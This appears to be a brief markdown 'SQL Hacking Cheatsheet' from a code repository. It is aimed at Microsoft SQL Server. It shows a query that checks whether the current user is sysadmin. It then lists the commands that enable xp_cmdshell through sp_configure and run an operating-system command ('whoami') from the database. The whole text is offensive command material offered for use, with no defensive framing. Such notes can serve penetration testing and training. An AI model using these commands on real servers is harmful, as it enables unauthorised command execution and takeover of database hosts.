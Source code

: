 # SQL Hacking Cheatsheet

## Determine if Current User is Sysadmin

`select is_srvrolemember('sysadmin')`

## Spawn Command Shell once Sysadmin

`EXEC sp_configure 'Show Advanced Options', 1;`
'reconfigure;'
`sp_configure;`
`EXEC sp_configure 'xp_cmdshell', 1`
`reconfigure;`
`xp_cmdshell "whoami"`
